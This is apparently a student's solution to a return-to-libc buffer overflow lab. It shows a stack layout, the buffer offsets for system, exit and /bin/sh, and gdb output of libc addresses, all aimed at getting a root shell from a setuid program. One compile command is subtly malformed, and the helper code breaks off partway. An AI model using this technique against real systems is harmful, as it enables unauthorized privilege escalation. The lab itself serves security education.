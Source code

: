 After you finish the above program, compile and run it; this will generate the contents for “badfile”. Run the vulnerable program `retlib`. If your exploit is implemented correctly, when the function `bof` returns, it will return to the `system()` libc function, and execute `system("/bin/sh")`. If the vulnerable program is running with the root privilege, you can get the root shell at this point.

It should be noted that the `exit()` function is not very necessary for this attack; however, without this function, when `system()` returns, the program might crash, causing suspicions.
```
$ gcc -o exploit exploit.c
$ ./exploit       // create the badfile
$ ./retlib        // launch the attack by running the vulnerable program
# <---- You've got a root shell!
```

Questions.
- Please describe how you decide the values for X, Y and Z.
- After your attack is successful, change the file name of `retlib` to a different name, making sure that the length of the file names are different. For example, you can change it to `newretlib`. Repeat the attack (without changing the content of badfile). Is your attack successful or not?

solution:

The following is return-to-libc stack:
```
<- stack grows this way
   addresses grow this way ->
------------------------------------------------------------------------------
| buffer fill-up | f1 | pop-ret | f1_arg | f2 | dmm | f2_arg1 | f2_arg2 ... 
------------------------------------------------------------------------------
                                    ^
                                    |
                                    - this int32 should overwrite return address
                                        of a vulnerable function
```
So we should set `system`'s entry address at `bof`'s return address (`&buf[24]`), set `system`'s argument address at `&buf[32]`, and set `exit`'s entry address at `&buf[36]`.

Then, find memory address:
```
root@ubuntu:/home/seed# gcc -o -fno-stack-protector -z noexecstack -o retlib retlib.c 
root@ubuntu:/home/seed# chmod u+s retlib
root@ubuntu:/home/seed# gdb --quiet retlib
Reading symbols from /home/seed/retlib...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048528
(gdb) r
Starting program: /home/seed/retlib 
Breakpoint 1, 0x08048528 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e5f430 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e52fb0 <exit>
```
We need write a program to get `/bin/sh`'s address:
```
// getenv.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char const *argv[])
{
    char *ptr;
    if(argc < 3)
    {
        printf("Usage: %s <environment var> <target program name>\n", argv[0]);
        exit(0);
    }
```